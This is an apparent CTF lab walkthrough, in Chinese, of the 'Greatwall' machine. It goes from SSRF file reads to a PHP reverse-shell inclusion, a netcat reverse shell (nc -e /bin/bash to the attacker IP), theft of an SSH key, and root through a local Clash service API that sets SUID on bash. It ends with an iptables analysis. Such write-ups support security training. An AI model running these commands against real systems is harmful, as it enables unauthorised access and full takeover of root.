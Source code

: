 # Greatwall
nmap扫描
![](vx_images/293432650484925.png)
看一下web
![](vx_images/214773736853483.png)
第一感觉是ssrf
![](vx_images/545784595009731.png)
测试一下协议的使用file读取passwd,发现用户wall,暂时没想到拿shell的方式
![](vx_images/243135009156065.png)
接下来的想法:
1.端口探测(dict协议不给用,可能做了限制)dict://192.168.1.1:22,用http也没探出来个什么
2.ssh爆破(也没成功)
3.遍历读取源码(耗时,且盲目,暂时搁置)
4.gopher协议(没看到什么其他服务,无法获取shell)
5.file读取一些关键文件扩大信息
获取内核版本
```
Linux version 6.1.0-32-amd64 (debian-kernel@lists.debian.org) (gcc-12 (Debian 12.2.0-14) 12.2.0, GNU ld (GNU Binutils for Debian) 2.40) #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06)
```
其他的没读到什么
查找版本的漏洞
系统比较新,没啥符合的
读取file:///var/www/html/index.php时,一直不反回响应,看来是php搭建
试一下伪协议,也都不行,被过滤
试一下读日志/var/log/apache2/access.log
突然想到他是ssrf可以下载kali上的文件,我们只需要写一个反弹shell的脚本就行了
起一个python的http服务
文件内容:
```
<?php
exec("/bin/bash -c'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
?>
```
下载文件
```
/?page=http://192.168.111.128/reverse_shell.php
```
内容返回了,但是没shell弹回
![](vx_images/368082968359497.png)
访问触发代码,触发了还是不行?
设置了iptables难怪弹这么久的shell,弹不回来,尝试其他端口
使用nc通过22端口传输(不知道为啥用p指定22端口就不行,感觉直接报错不反弹了,版本不支持?搞不懂,只支持外联22?)
经测试,http服务需要用80端口,nc 用22端口才能弹回shell
```
nc 192.168.111.128 22 -e /bin/bash
```
![](vx_images/545068205153464.png)
![](vx_images/228265273204680.png)
产看sudo权限,可以以wall的权限做事(chmod赋予777权限即可)
![](vx_images/408371963545487.png)
没有python环境,升级shell
```
script -qc /bin/bash /dev/null
```
赋予wall文件777权限
```
sudo -u wall chmod 777 wall -R
```
获得user的flag{b088764475fa2a0a962fb9154f41c5b6}
![](vx_images/143664022833022.png)
看到文件下还有.ssh文件,可以通过ssh登录wall用户.两种方法传自己的公钥,或下载其私钥
将私钥文件下载,但是考虑到有防火墙22端口也无法使用,80也一样
![](vx_images/44309388937091.png)
想了一下能否将其移动到web目录下,直接下在,或者用php再起一个web
发现web的目录权限属于root无法复制过去
![](vx_images/459992355553051.png)
```
php -S 0.0.0.0:8080
```
依旧访问不了.....
那就直接粘贴复制自己的公钥到authorized_key(不知道为啥写进后任然需要密码)
那就复制私钥过来
踩坑:tmd将wall文件夹权限复原就行了上面两种就都可行
```
sudo -u wall chmod 700 wall -R
```
![](vx_images/219492809859892.png)
SSH 的安全保护机制
SSH（Secure Shell）协议设计有一个非常严格的安全规则：​如果密钥文件或目录的权限过于开放，它将直接拒绝使用这些文件进行认证。
应该是.ssh文件权限只能是wall用户的,chmod 700
![](vx_images/492392138958866.png)
有个小猫以root运行
![](vx_images/152303476766550.png)
但这这个咋提权?
运行后会开放端口?nmap扫描并没有
看一下服务开启情况
![](vx_images/388685519825668.png)
想起来前段时间它爆出个漏洞,去找一下
![](vx_images/576765158915634.png)
看到端口开放
![](vx_images/273655674541745.png)
![](vx_images/33197431468172.png)
可以指定二进制文件路径bin_path
```
curl -X POST "http://127.0.0.1:33211/start_clash" -H "Content-Type: application/json" -d '{
    "core_type": "verge-mihomo",
    "bin_path": "/tmp/hack.sh",
    "config_dir": "1",
    "config_file": "/tmp/hack.sh",
    "log_file": "/tmp/clash.log"
  }'
```
```
hack.sh:
#!/bin/bash
chmod +s /bin/bash
```
看下写的日志
![](vx_images/589004165321169.png)
成功赋予s权限
![](vx_images/285643839416372.png)
获得rootshell
```
bash -p
```
bash -p 的作用
​保持特权身份​：
通常情况下，当 SUID 位的程序（如 bash）启动时，出于安全原因，现代版本的 bash 会自动放弃由 SUID 带来的特权权限，回退到调用它的真实用户的权限。
​**-p 参数​ 会告诉 bash ​不要放弃这些特权权限**。如果成功，它将尝试维持其有效用户ID（通常是 root），从而提供一个具有 root 权限的 shell。

![](vx_images/306945728678298.png)

看一下防火墙配置
![](vx_images/504074164139612.png)

```
配置摘要分析
​默认策略（Default Policy）​: ​全部丢弃（DROP）​。这是最严格的策略，意味着所有未明确允许的流量都会被拒绝。
​表（Table）​: *filter 表示这是过滤表，负责包过滤（允许或拒绝）。
​三条内置链（Chains）​:
INPUT: 处理发往本机的流量。
OUTPUT: 处理从本机发出的流量。
FORWARD: 处理经过本机路由的流量（本机作为网关时使用）。此处默认拒绝且无规则，说明此服务器不是网络网关。
规则详解（Rule by Rule）
​INPUT 链（入站流量）​​
处理目标是本机的数据包。

-A INPUT -i lo -j ACCEPT
​含义​：接受所有来自环回接口（lo）的流量。
​分析​：允许本机内部进程间通信，这是必须的，否则很多本地服务会无法工作。
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
​含义​：接受所有属于已建立的（ESTABLISHED）​​ 或相关的（RELATED）​​ 连接的流量。
​分析​：这是防火墙的关键规则。它允许对外出请求的回应流量回到本机。例如，如果你从这台机器curl example.com，这条规则允许 example.com 的响应数据包进入。
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
​含义​：接受目标端口为 ​22 (SSH)​​ 的 TCP 流量。
​分析​：这是系统管理员远程管理服务器的入口。这是整个配置中唯一从外部访问本机的入口。
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
​含义​：接受目标端口为 ​80 (HTTP)​​ 的 TCP 流量。
​分析​：这台服务器很可能运行着一个Web服务器​（如Nginx、Apache），允许外界访问其HTTP网站服务。
:INPUT DROP [1:48]
​含义​：这是默认策略，INPUT链的最终动作是丢弃所有不匹配上述任何一条规则的数据包。
​OUTPUT 链（出站流量）​​
处理从本机发出的数据包。

-A OUTPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
​含义​：接受所有属于已建立的或相关的连接的流量。
​分析​：同样关键。它允许本机接收对外请求的响应（虽然响应是入站，但OUTPUT链也需处理连接跟踪的元数据）。
-A OUTPUT -o lo -j ACCEPT
​含义​：接受所有发往环回接口的流量。
​分析​：允许本机进程向本地其他进程发送数据。
-A OUTPUT -p tcp -m tcp --dport 22 -j ACCEPT
​含义​：允许本机向外部服务器的 ​22端口 (SSH)​​ 发起连接。
​分析​：这使得管理员可以从这台服务器通过SSH连接到其他机器​（例如，跳板机、git拉取代码等）。
-A OUTPUT -p tcp -m tcp --dport 80 -j ACCEPT
​含义​：允许本机向外部服务器的 ​80端口 (HTTP)​​ 发起连接。
​分析​：这使得这台服务器可以访问外部的HTTP服务，例如下载软件包（apt-get update）、调用API、获取网页内容等。
:OUTPUT DROP [4:176]
​含义​：这是默认策略，OUTPUT链的最终动作是丢弃所有不匹配上述任何一条规则的数据包。
​FORWARD 链​
:FORWARD DROP [0:0]
​含义​：默认拒绝且没有规则，直接丢弃所有需要转发的数据包。
​分析​：明确表示此服务器没有启用路由/转发功能，只是一台独立的主机。
```
